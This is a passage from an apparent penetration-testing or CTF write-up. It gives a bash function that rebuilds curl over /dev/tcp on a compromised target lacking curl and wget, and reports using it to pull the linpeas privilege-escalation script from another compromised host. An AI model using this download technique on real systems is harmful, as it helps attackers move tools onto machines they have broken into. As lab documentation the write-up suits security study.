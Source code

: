 ![stty-raw](images/stty-raw-echo.png) 

This target didn't have `curl` or `wget` so we created our own:
```console
$ function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
```

We pasted that into the terminal and downloaded linpeas from first target:

![Custom curl](images/custom_curl.png) 
